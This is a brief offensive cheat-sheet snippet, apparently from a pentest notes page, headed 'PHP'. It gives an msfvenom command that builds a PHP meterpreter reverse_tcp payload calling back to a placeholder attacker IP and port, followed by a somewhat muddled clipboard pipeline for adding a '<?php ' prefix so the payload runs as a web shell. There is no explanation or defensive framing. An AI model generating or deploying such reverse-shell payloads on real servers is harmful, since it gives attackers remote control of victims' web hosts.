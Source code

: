 # PHP

`$ msfvenom -p php/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f raw -o met.php`

`$ cat met.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> met.php`